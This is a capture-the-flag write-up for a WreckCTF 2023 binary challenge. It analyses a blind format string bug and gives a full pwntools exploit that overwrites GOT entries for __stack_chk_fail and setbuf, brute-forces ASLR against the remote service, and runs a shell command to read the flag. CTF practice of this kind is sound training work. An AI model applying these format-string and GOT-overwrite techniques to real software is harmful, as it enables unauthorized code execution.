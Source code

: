 
# analysis

[chall](/wreckctf-2023/chall)

![](/wreckctf-2023/agile_main.png)

- blind format string on stack
- no PIE
- ASLR is present

The simplest solution is just pick a fitting location and call a one_gadget :) the setvbuf call works and by rewriting `__stack_chk_fail` to `_start` we can do a partial (three byte) overwrite to set it to another location in libc with only 12 ASLR-randomized bits. about 20 minutes later there was a flag in stdout lol

# solve

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("chall_patched")

context.binary = exe
context.cyclic_size = 8

def conn():
    if args.REMOTE:
        r = remote("wreckctf.com", 34426)
    else:
        if args.GDB:
            r = gdb.debug([exe.path],gdbscript="b *main+142\nc")
        else:
            r = process([exe.path])

    return r


def main():
    r = conn()

    # good luck pwning :)

    # got['__stack_chk_fail'] rewrite lsb from 0x40 to 0x1a for a ret gadget



    payload_ret_main = flat({
        0x0:b"%240c%36$hhn" + b"%16c", # rewrite stack chk fail to _start
        40: b"C" *8,
        0x100-8: p64(exe.got['__stack_chk_fail'])[0:7],
    },length=255)


    
    # e7 = 231
    # ec = 236
    # f8 = 248
    payload_fix_setvbuf = flat({
        0x0:[
            b"%231c%36$hhn",
            b"%5c%35$hhn",
            b"%12c%34$hhn",
            b"%24c"
        ],
        
        0x100-24: p64(exe.got['setbuf']),
        0x100-16: p64(exe.got['setbuf']+1),
        0x100-8: p64(exe.got['setbuf']+2)[0:7],
    },length=255)

    r.send(payload_ret_main)
    r.send(payload_fix_setvbuf)
    time.sleep(0.1)
    r.sendline(b"grep flag *;exit;")
    print(r.recvall())
    r.close()


if __name__ == "__main__":
    main()
    if args.REMOTE:
        count = 0
        while True:
            main()
            count += 1
```